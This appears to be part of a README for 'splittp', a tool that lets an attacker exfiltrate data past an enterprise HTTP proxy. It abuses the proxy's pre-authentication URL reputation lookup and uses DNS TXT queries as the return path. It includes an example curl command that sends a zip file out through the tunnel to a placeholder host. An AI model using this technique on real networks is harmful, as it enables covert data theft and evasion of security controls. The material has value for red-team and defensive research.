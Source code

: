 ```text
|                                                                                                              |                                                                                
|                                                                                                              |                                                                                
+--------------------------------------------------------------------------------------------------------------+                                                                                
```
### Flow Explained

Let's consider the following scenario:

- An attacker has gained access to a network but the only way out to the internet is through an HTTP proxy (e.g., "GreenVest Proxy").
- The attacker has no credentials for the proxy.
- The proxy has a URL reputation service turned on (often default).
- The proxy sends the requested URL to its reputation service *before* checking authentication.
- (If bidirectional comms are needed) The attacker also has DNS resolution capabilities through the corporate DNS server.
- All other outbound ports are blocked by a firewall.


#### Steps

1.  **Application request (S1)**
    The attacker uses an application like `curl` to make a request, configured to use the `splittp_client.py` as its HTTP proxy. Example:
    `curl -x http://SPLITTTP_CLIENT_IP:LISTEN_PORT -d @data.zip http://DESTINATIONSERVER/receivedata`

2.  **Outbound request via Reputation Channel (S2, S3)**
    `splittp_client.py` receives the request. It base64-encodes the original HTTP request (method, headers, URL, data), slices it into URL-safe chunks, and constructs URLs like:
    `http://SPLITTTP_SERVER_IP:PORT/receive/<id>/<idx>/<totalchunks>/<chunkdata>`
    These URLs are sent as requests through the **Enterprise HTTP Proxy (S4)**. The enterprise proxy, performing a reputation lookup on these crafted URLs, forwards them to the `splittp server` **even if the user never authenticates with the enterprise proxy**.

3.  **Real fetch and Response Pickling (S5, S6)**
    `splittp_server.py` (the Flask application) receives the chunks, reassembles the original request, and forwards it to the actual **Destination HTTP Server**. It then receives the response, pickles the entire `requests.Response` object, and saves it to a file named after the `<id>` in a designated directory (e.g., `/tmp/dns_files/<id>`).

4.  **DNS Return Path (S7)**
    `splittp_client.py` (via its internal `dnsclient.py` module) now needs to retrieve the response. It performs a `CNAME` query to `dns_server.py` (e.g., `<id>.your.domain`) to learn the total number of chunks for the pickled response. It then issues sequential `TXT` queries (e.g., `0.<id>.your.domain`, `1.<id>.your.domain`, …) to retrieve each base32-encoded slice of the pickled `requests.Response` from `dns_server.py`.

5.  **Response Reconstruction (S7 continued)**
    Back inside the enterprise network, `splittp_client.py` receives the base32-encoded chunks from `dnsclient.py`, decodes them, and unpickles the bytes to reconstruct the complete `requests.Response` object. This response (content, status, headers) is then delivered to the original application (e.g., `curl`).

---